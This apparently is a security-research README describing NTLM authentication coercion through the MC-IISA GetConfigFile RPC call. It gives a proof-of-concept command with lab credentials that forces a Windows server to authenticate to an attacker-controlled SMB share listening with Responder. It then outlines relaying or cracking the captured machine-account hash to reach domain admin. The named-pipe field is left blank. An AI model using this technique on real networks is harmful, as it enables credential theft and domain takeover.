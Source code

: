 # MC-IISA - Remote call to GetConfigFile (opnum 3)

## Summary

+ **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

+ **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetConfigFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f97ca13f-3e34-402b-a0fb-053d676a064e)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`GetConfigFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f97ca13f-3e34-402b-a0fb-053d676a064e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetConfigFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetConfigFile(
   [in] BSTR bstrConfigPath,
   [out, retval] IAppHostConfigFile** ppConfigFile
 );
```

## References

+ Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

+ Documentation of function `GetConfigFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f97ca13f-3e34-402b-a0fb-053d676a064e